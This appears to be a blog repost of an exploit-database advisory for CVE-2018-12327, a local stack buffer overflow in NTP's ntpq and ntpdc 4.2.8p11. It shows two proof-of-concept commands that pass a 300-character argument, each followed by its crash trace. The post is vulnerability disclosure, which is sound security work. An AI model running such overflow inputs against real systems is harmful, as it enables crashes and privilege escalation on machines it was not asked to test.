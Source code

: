 ```yaml
---
layout: post
title: "ntpq and ntpdc 4.2.8p11 Local Buffer Overflow"
comments: true
description: "ntpq and ntpdc 4.2.8p11 Local Buffer Overflow"
keywords: "ntpq, ntpdc, buffer overflow"
---
```


Exploit Title: ntpq and ntpdc 4.2.8p11 Local Buffer Overflow<br>
Date: 2018-06-06<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: http://www.ntp.org/<br>
Software Link: http://www.ntp.org/downloads.html<br>
Version: 4.2.8p11 and earlier<br>
Tested on: 4.2.8p11<br>
CVE : CVE-2018-12327<br>

Stack-based buffer overflow in ntpq and ntpdc of NTP version 4.2.8p11 allows a local attacker to achieve code execution or escalate to higher privileges via a long string as the argument for an IPv4 or IPv6 command-line parameter.<br>

```
$ ./ntpq -4 [`python -c 'print "A" * 300’`]

#0 0x562fcada86ce in openhost /home/user/ntp-4.2.8p11/ntpq/ntpq.c:655:12
#1 0x562fcada5f2a in ntpqmain /home/user/ntp-4.2.8p11/ntpq/ntpq.c:606:10
#2 0x562fcada4729 in main /home/user/ntp-4.2.8p11/ntpq/ntpq.c:469:9
#3 0x7f79b684982f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#4 0x562fcac96d88 in _start (/home/user/ntp-4.2.8p11/ntpq/ntpq+0xacd88)

$ ./ntpdc -4 [`python -c 'print "A" * 300'`]

#0 0x55f726641efe in openhost /home/user/ntp-4.2.8p11/ntpdc/ntpdc.c:413:12
#1 0x55f7266400d4 in ntpdcmain /home/user/ntp-4.2.8p11/ntpdc/ntpdc.c:365:10
#2 0x55f72663f269 in main /home/user/ntp-4.2.8p11/ntpdc/ntpdc.c:255:9
#3 0x7f0fc632382f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#4 0x55f7265362d8 in _start (/home/user/ntp-4.2.8p11/ntpdc/ntpdc+0x9d2d8)
```
